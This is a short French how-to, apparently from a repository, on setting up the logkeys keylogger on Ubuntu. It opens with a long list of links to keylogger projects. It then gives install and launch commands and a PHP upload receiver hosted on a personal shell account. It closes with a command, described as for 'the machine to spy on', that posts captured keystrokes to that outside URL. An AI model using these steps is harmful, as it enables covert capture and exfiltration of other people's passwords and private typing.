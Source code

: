 # Mise en place d'un key loggers sur linux

## Les différents keylogger (finalement, on choisit logkeys)

https://blog.rom1v.com/2011/11/keylogger-sous-gnulinux-enregistrer-les-touches-tapees-au-clavier/

http://www.tux-planet.fr/logkeys-un-keylogger-sous-linux/

https://artduweb.com/tutoriels/keylogger

https://askubuntu.com/questions/169887/how-can-i-detect-a-keylogger-on-my-system
https://linux.die.net/man/8/uberkey
lkl.sourceforge.net
https://sourceforge.net/projects/lkl/

https://sourceforge.net/p/pykeylogger/wiki/Installation_Instructions/

https://gist.github.com/brentvollebregt/a6f28546744a34368dca8030413ee093

https://github.com/WilsonKoder/PieLogger

https://www.geeksforgeeks.org/design-a-keylogger-in-python/

https://github.com/toxic-ig/PythonKeylogger

https://github.com/nanotube/pykeylogger

https://github.com/amoffat/pykeylogger

https://askubuntu.com/questions/169887/how-can-i-detect-a-keylogger-on-my-system

https://github.com/kernc/logkeys
https://github.com/kernc/logkeys/blob/master/docs/PostHTTP.md

https://github.com/nathanlopez/Stitch

https://nathanlopez.github.io/Stitch/

https://github.com/GiacomoLaw/Keylogger

https://simple-keylogger.github.io/

https://simple-keylogger.github.io/linux.html

https://github.com/mehulj94/Radium-Keylogger

https://github.com/hiamandeep/py-keylogger

https://www.techinfected.net/2015/10/how-to-make-simple-basic-keylogger-in-python-for-linux.html

https://github.com/kernc/logkeys
https://github.com/kernc/logkeys/blob/master/docs/PostHTTP.md


## Installation de logkeys sous ubuntu

### installation par paquet binaire ou avec les sources
paquet :
```
sudo apt-get install logkeys

```
sources :
```
./installLogkeys.sh
```

### Premiers tests
lancement :
 - pas avec llk, mais avec : sudo logkeys -s
 - avec le bon device : -d event4
 - avec le bon mappage clavier : --keymap logkeys/keymaps/fr.map
sudo logkeys -s --keymap logkeys/keymaps/fr.map -d event4

affichage :
sudo tail -f /var/log/logkeys.logs

### Amelioration : envoi des logs sur un site distant
#### Creation d'un fichier upload.php
```
vi upload.php
```

```
<?php

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
  
  $file = $_FILES['file'];
  
  if ($file['error'] === UPLOAD_ERR_OK) 
    move_uploaded_file($file['tmp_name'], 'new.log');
}

?>

```

#### Transfert de ce fichier php vers nic-nac.project
```
ssh fgarel@nic-nac-project.org

```
Le log pourra donc se faire a cette adresse

https://www.freeshell.de/~fgarel/

https://www.freeshell.de/~fgarel/upload.php

#### La commande a executer sur le poste à espionner
```
sudo logkeys -s --keymap logkeys/keymaps/fr.map -d event4 --post-http=https://www.freeshell.de/~fgarel/upload.php
```
